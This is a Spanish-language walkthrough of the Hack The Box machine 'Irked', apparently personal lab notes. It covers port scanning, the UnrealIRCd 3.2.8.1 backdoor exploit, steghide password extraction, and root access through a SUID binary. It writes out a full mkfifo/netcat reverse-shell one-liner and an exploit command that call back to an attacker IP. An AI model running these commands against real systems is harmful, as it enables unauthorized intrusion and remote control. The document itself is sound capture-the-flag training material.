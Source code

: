 Irked es una box bastante simple y directa que requiere habilidades básicas de enumeración. Muestra la necesidad de escanear todos los puertos en las máquinas e investigar cualquier binario fuera de lugar encontrado mientras se enumera un sistema. 

Escaneo:
nmap -Pn -p- -open 10.10.10.117 -T4
![[Pasted image 20240511235155.png]]
 Versiones:
 nmap -Pn -sCV -p22,80,111,6697,8067,52895,65534 10.10.10.117 -T4
 ![[Pasted image 20240511235348.png]]
 Encontramos un dominio 
 ![[Pasted image 20240511235425.png]]
 ![[Pasted image 20240511235604.png]]
 Escaneamos por UDP
 sudo nmap -Pn -sU --top-ports 500 10.10.10.117
 ![[Pasted image 20240512001616.png]]

# UnrealIRCd Unreal3.2.8.1
 Luego de enumerar un buen rato encontré lo siguiente  ayudado de hacktricks
https://book.hacktricks.xyz/network-services-pentesting/pentesting-irc
nc 10.10.10.117 6697
![[Pasted image 20240512010844.png]]
Añadimos USER master 0 * master  Nick master encontrado Unreal3.2.8.1, validamos un exploit.
searchsploit UnrealIRCd -w
![[Pasted image 20240512010949.png]]
Como hay varios buscamos en GitHub un exploit que no use metasploit 
https://github.com/chancej715/UnrealIRCd-3.2.8.1-Backdoor-Command-Execution
![[Pasted image 20240512011349.png]]

ejecutamos de acuerdo a las instrucciones.
![[Pasted image 20240512011413.png]]
 python3 script.py 10.10.10.117 6697 10.10.14.2 123
 ![[Pasted image 20240512011658.png]]
 y en netcat tenemos acceso al pc
![[Pasted image 20240512011638.png]]
Mejoramos shell
![[Pasted image 20240512012101.png]]
Enumerando la máquina encontramos otro usuario y su flag esta allí por lo cual debemos ser djmarov
![[Pasted image 20240512012510.png]]
validando el archivo 
cat unrealircd.conf

![[Pasted image 20240512013458.png]]
buscando dentro del directorio /home/djmardov/Documents encuentro de manera oculta el  archivo .backup que contiene un password.
![[Pasted image 20240512021246.png]]

# Esteganografia para jpg ==steghide==
Al principio intenté conectar por ssh con las credenciales encontradas mooc y UPup, pero nada funciono luego leí bien el mensaje del .backup sobre super elite steg backup pw steg de steghide y la imagen obviamente del index.

steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss

![[Pasted image 20240512022059.png]]
validamos pass.txt
![[Pasted image 20240512022240.png]]
nos conectamos por ssh 
ssh djmardov@10.10.10.117
![[Pasted image 20240512022351.png]]
# binario viewuser
Ahora enumerando la máquina con djmardov encuentro el siguiente binario raro 
find / -perm -4000 2>/dev/null
![[Pasted image 20240512022501.png]]

lo ejecuto 
viewuser
![[Pasted image 20240512022729.png]]
Se detecta que se intenta guardar lo obtenido en ese /tmp/listusers.
Busco en internet 
![[Pasted image 20240512023140.png]]
Abro el primer vínculo 
![[Pasted image 20240512023211.png]]
Allí nos dice que se crea el archivo /tmp/listusers y se le da full permisos aparte que dentro de este archivo tendrá la reverse Shell.
creo ese file listusers pero le añado una reverse shell 
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 1234 >/tmp/f" > /tmp/listusers
![[Pasted image 20240512023413.png]]
Reviso el netcat y somos root
![[Pasted image 20240512023758.png]]


otra forma de validar el file listuser es haciendo un simple id 
echo id > /tmp/listusers
![[Pasted image 20240512025114.png]]
aca detectamos permisos denegados es decir que si ejecuta comandos.


Maquina media tirando a facil muy chevere sobre todo la parte del steghide hacia mucho no utilizaba esta herramienta. 
